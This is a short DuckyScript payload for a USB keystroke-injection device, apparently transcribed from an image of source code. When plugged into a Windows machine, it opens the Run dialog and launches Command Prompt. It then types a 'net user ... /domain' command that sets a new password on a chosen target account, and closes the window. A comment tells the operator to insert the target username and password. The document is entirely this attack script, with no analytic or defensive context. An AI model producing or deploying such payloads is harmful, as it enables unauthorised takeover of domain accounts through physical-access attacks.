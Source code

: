 DELAY 500
REM Delay for 0.5 seconds
GUI r
REM Hold down the Windows key and press 'r' to open the Run dialog
DELAY 500
REM Delay for 0.5 seconds
STRING cmd
REM Type 'cmd' and press Enter to open Command Prompt
ENTER
REM Press Enter
DELAY 500
REM Delay for 0.5 seconds
STRING echo off && net user <username> <password> /domain
REM Replace '<username>' with the target username and '<password>' with the new password
ENTER
REM Press Enter
DELAY 500
REM Delay for 0.5 seconds
STRING exit
REM Type 'exit' and press Enter to close Command Prompt
ENTER
REM Press Enter
